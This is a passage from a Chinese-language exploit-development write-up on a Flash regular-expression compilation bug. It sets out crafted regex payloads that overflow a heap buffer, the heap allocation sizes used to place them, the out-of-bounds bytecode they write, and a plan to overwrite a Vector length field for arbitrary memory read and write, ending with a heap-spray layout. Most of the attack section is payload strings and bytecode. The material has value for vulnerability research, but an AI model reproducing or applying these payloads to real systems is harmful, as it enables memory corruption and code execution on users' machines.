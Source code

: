 赞，好事成双。当分配大小大于99*4=396字节时，我们可以差不多控制一个堆创建之后的一个DWORD了。由于我们需要的是写入分配区域之后，所以看看Flash的堆分配器，它告诉我们，504字节是我们准确匹配到的第一个区域的大小，所以我们需要 md->top_backref == 41 这么大来获得这个数字。这个简单，只要我们加一堆捕获组和回溯引用即可。

```
(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41(\c?0?4+)?(?43)

```

另一个我们将要碰到的问题是Flash并不会校验正则表达式是否编译成功，如果我们第一个堆分配失败的话，find_bracket将不会找到一个匹配该组的数据，因此编译也会失败当调试的时候这个是相当复杂的，所以我们可以在开头加一个常量，这样我们就能用它来测试是否编译成功了。

```
(c01db33f|(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41(\c?0?4+)?(?70))

```

像我们之前提到的一样，我们需要一次堆分配来让我们的代码正好位于从我们提供的正则式中编译出的字节码的缓存位置之后。为了更简单一些，我们会把正则式贴到缓存后面，这样对Flash的堆分配器来说，这就又是一个不错的数字了，下一个可用单元是576字节，每个字符匹配增加2个字节。

```
(c01db33f|(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41AAAAAAAAAAAAAAAAAAAAAAAAAAA(\c?0?4*)?(?70))

```

我们需要通过更多的修改来让这个将当前匹配的长度复写问题产生作用，所以我们需要有更简单的方式来控制它。我们可以调整第一组来让匹配任意个数的不同字符，如下：

```
(c01db33f|(B*)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)(A)\41AAAAAAAAAAAAAAAAAAAAAAAAAAA(\c?0?4*)?(?70))

```

注：漏洞代码中，我们会在选定的字符里面随意替换B，原因是Flash会缓存编译的正则式，无论成功与否都会，如果我们的分配失败了，我们还是需要强制它重新编译正则的。

所以，这就意味着漏洞最初的编译处理工作已经完成了。我们已经知道如何通过这个跨界写的字节码payload，是：

```
0000 5e00010046  94 CBRA             [1, 70]
0005 5e00000000  94 CBRA             [0, 0]
000a 6d         109 ACCEPT

```

为了成功写入，最后的ACCEPT是必须的，我们需要让组0成为一个匹配项，ACCEPT将强行完成这个动作，而且还有个好处是它使用的字节码最少。

现在，如果你一路看下来，可能觉得这个东西实在是麻烦。在许多情况下，这差不多就是漏洞的开始：我们控制了分配的大小，而且我们把我们的匹配项的长度写到了它的末尾，虽然说要覆写一个指针是个相当烦人的事情。但是好消息是在Flash中有一个一了百了的解决反感：Vector.，我们可以分配任意大小的这种对象，而且它的最开始的一个DWORD就是一个长度域。当我们改写了这个长度域，在产生任意读写的道路上，我们就不会有任何阻碍了，而且也将是一个非常稳定的漏洞代码。

0x01 编译正则式
=====

首先我们需要分配一大组大小504的缓冲区（和我们编译的正则式一样），然后用我们的恶意字节码填充它：

```
 _______________________________________________________________________________________
|exploit-bytecode------------|exploit-bytecode------------|exploit-bytecode------------|
`````````````````````````````````````````````````````````````````````````````
